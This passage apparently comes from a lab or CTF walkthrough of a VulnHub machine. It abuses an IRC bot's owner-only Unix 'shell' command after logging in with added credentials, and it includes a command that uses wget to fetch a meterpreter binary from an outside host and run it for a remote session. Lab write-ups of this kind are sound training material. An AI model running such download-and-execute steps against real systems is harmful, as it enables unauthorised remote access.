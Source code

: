 So let's execute the mentioned `list` command:
```
21:21:13   -- | vulnhub-bot: Admin, AutoMode, Channel, Config, Misc, NickAuth, Owner, Unix, User, and Utilities
```

By looking at all the plugins in detail a `list Unix` reveals a `shell` method:
```
21:22:20   -- | vulnhub-bot: call, crypt, errno, fortune, pid, ping, ping6, progstats, shell, spell, sysuname, sysuptime, and wtf
```

So let's try the `shell` command:
```
22:25:16 root | Unix shell
22:25:17   -- | vulnhub-bot: Error: You don't have the owner capability. If you think that you should have this capability, be sure that you are identified before trying again. The 'whoami' command can tell you
              | if you're identified.
```

Crap, so `whoami`?
```
21:22:44 root | whoami
21:22:44   -- | vulnhub-bot: I don't recognize you. You can message me either of these two commands: "user identify <username> <password>" to log in or "user register <username> <password>" to register.
```

Ok let's try the credentials from the user we added in the admin dialog:
```
21:23:16 root | user identify test test
21:23:16   -- | vulnhub-bot: The operation succeeded.
21:23:19 root | shell
21:23:20   -- | vulnhub-bot: (shell <command to call with any arguments>) -- Calls any command available on the system using the shell specified by the SHELL environment variable, and returns its output.
              | Requires owner capability. Note that being restricted to owner, this command does not do any sanity checking on input/output. So it is up to you to make sure you don't run anything that will
              | spamify your channel or that will bring your (1 more message)
```

So let's download a meterpreter shell and start it:
```
shell "/usr/bin/rm -f /tmp/meterpreter ; /usr/bin/wget -O /tmp/meterpreter http://192.168.56.3/meterpreter ; chmod +x /tmp/meterpreter; /tmp/meterpreter"
```

```
meterpreter > sysinfo
Computer     : 192.168.56.2
OS           : Ubuntu 14.04 (Linux 3.13.0-101-generic)
Architecture : x64
Meterpreter  : x86/linux
```
